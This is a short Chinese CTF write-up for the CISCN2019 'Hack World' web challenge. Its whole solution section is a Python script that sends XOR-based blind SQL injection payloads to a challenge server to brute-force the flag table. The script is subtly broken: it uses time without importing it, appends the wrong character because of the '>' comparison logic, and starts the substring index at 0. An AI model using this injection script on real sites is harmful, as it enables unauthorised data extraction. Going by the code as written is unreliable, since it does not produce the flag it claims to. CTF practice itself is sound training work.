

# [CISCN2019 华北赛区 Day2 Web1]Hack World

## 题目描述
---
```

```

## 题目来源
---
CISCN2019

## 主要知识点
---
SQL注入

## 题目分值
---


## 部署方式
---


## 解题思路
---

使用如下脚本进行flag爆破

```python
import requests
url="http://2c3bcac1-f3f3-49e7-aa82-54a476f07224.node3.buuoj.cn//index.php"
flag=""
for a in range(127):
    for b in range(32,127):
        x=requests.post(url,data={
            "id":"1^(ascii(substring((select(flag)from(flag)),{},1))>{})^0".format(a,b)
        })
        print("1^(ascii(substring((select(flag)from(flag)),{},1))>{})^0".format(a,b))
        time.sleep(0.1)
        if "Hello, glzjin wants a girlfriend." in x.text:
            flag+=chr(b)
            print(flag)
            break
```



## 参考
---
